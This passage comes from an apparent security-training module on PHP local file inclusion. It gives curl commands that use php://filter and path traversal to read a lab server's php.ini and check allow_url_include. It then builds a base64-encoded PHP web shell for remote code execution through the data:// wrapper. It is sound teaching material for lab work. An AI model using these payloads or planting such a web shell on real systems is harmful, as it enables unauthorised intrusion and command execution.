 To do so, we can include the PHP configuration file found at ( `/etc/php/X.Y/apache2/php.ini`) for Apache or at ( `/etc/php/X.Y/fpm/php.ini`) for Nginx, where `X.Y` is your install PHP version. We can start with the latest PHP version, and try earlier versions if we couldn't locate the configuration file. We will also use the `base64` filter we used in the previous section, as `.ini` files are similar to `.php` files and should be encoded to avoid breaking. Finally, we'll use cURL or Burp instead of a browser, as the output string could be very long and we should be able to properly capture it:

```shell
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
<!DOCTYPE html>

<html lang="en">
...SNIP...
 <h2>Containers</h2>
    W1BIUF0KCjs7Ozs7Ozs7O
    ...SNIP...
    4KO2ZmaS5wcmVsb2FkPQo=
<p class="read-more">

```

Once we have the base64 encoded string, we can decode it and `grep` for `allow_url_include` to see its value:

```shell
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On

```

Excellent! We see that we have this option enabled, so we can use the `data` wrapper. Knowing how to check for the `allow_url_include` option can be very important, as `this option is not enabled by default`, and is required for several other LFI attacks, like using the `input` wrapper or for any RFI attack, as we'll see next. It is not uncommon to see this option enabled, as many web applications rely on it to function properly, like some WordPress plugins and themes, for example.

#### Remote Code Execution

With `allow_url_include` enabled, we can proceed with our `data` wrapper attack. As mentioned earlier, the `data` wrapper can be used to include external data, including PHP code. We can also pass it `base64` encoded strings with `text/plain;base64`, and it has the ability to decode them and execute the PHP code.

So, our first step would be to base64 encode a basic PHP web shell, as follows:

```shell
echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==

```

Now, we can URL encode the base64 string, and then pass it to the data wrapper with `data://text/plain;base64,`. Finally, we can use pass commands to the web shell with `&cmd=<COMMAND>`:
![Shipping containers and cranes at a port with a PHP notice about an undefined variable.](https://academy.hackthebox.com/storage/modules/23/data_wrapper_id.png)
